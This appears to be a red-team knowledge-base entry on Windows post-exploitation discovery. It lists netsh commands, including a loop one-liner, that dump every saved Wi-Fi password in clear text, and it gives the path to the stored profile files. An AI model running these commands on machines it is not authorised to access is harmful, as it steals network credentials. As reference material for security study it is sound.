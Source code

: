 # Living off the Land

```
C:\> netsh.exe wlan show profile "<wifi_name>" key=clear

C:\> netsh.exe wlan export profile key=clear

C:\> for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh.exe wlan show profiles') do @echo %j | findstr.exe /i /v echo | netsh.exe wlan show profiles %j key=clear
```

> [!NOTE]
> Gaining access to the wireless AP can be as simple as cracking the WEP key or as complex as using ICMPTX, but wireless access can be broken. If all else fails, target one machine on the network, own it, and then recover the password.

Hex-encoded XML document with the wireless password.

```
C:\ProgramData\Microsoft\Wlansvc\Profiles\Interface\{Interface GUID}
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xC - Networking/Network Configuration/Known Wi-Fi Networks|Enumeration and Discovery: Windows Wi-Fi Configuration]]
